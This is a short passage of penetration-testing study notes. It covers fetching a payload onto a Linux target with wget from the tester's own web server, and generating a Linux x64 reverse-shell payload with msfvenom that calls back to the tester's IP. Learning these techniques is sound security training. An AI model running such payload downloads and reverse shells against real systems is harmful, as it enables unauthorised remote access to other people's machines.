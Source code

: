 
---

## Setting Up A Web Server With Python

We have already done that

---

## Transferring Files To Windows Targets


We have already done that

---

## Transferring Files To Linux Targets

For Linux machines, instead of the certutil command for Windows systems, we use the following: `wget http://(our IP address):(port number)/(name of payload file)`

To create a reverse shell for Linux targets using MSFVenom: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=(our IP address) LPORT=1234 -f elf > payload.elf
`

---


